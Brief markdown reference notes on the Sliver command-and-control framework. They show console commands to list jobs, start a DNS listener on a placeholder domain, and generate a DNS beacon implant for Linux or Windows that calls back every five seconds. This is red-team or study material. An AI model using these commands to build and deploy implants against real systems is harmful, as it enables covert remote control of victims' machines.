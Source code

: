 ```yaml
---
title: Sliver C2
description: Notes on using Sliver C2
date: 2022-07-19
---
```


# Sliver C2

## Objective

Provide a reference document for using Sliver.

## Config

### Check the active listeners

```bash
[server] sliver > jobs
```

### Start a DNS listeners

```bash
[server] sliver > dns --domain FQDN.
```

### Generate DNS beacon

```bash
[server] sliver > generate beacon --dns FQDN --os [linux,windows] --jitter 0 --seconds 5 --save /tmp/dns_c2
```

